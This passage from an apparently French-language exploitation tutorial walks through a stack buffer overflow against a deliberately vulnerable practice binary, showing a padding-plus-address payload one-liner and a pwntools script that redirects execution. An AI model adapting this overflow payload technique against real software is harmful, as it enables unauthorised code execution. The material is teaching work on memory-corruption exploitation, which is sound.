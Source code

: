 ```
0x0000120d  main
0x00001266  __x86.get_pc_thunk.ax
0x00001270  __libc_csu_init
0x000012d0  __libc_csu_fini
0x000012d4  _fini
```

On doit donc envoyer au programme l'adresse `0x000011a9` en **_little endian_**. [pwntools](https://docs.pwntools.com/) permet de faire la conversion:

```bash
$ python
Python 2.7.18rc1 (default, Apr  7 2020, 12:05:55) 
[GCC 9.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import p32
>>> 
>>> p32(0x000011a9)
'\xa9\x11\x40\x00'
>>> quit
$ # on passe maintenant à l'exploitation
$ ./bof $(python -c "print 'A' * 30 + '\xa9\x11\x40\x00'")
bash: warning: command substitution: ignored null byte in input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@
Well done! You exploited a buffer overflow ;)
Segmentation fault
```

Et voilà le travail !

Il est possible de complétement automatiser ce processus via le script suivant:

```python
import pwn

offset = 30
payload = 'A' * offset + pwn.p32(0x080491b6)
e = pwn.process(['./bof', payload])
print(e.recvall())
```

> _**Note**: J'ai changé de machine entre temps donc l'adresse a changé._

```bash
$ python boum.py 
[+] Starting local process './bof': pid 2554
[+] Receiving all data: Done (81B)
[*] Process './bof' stopped with exit code -11 (SIGSEGV) (pid 2554)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb6\x91\x04
Well done! You exploited a buffer overflow ;)
```

> **TODO:** voir comment automatiser le calcul de l'offset.

### Exemple pratique nº2
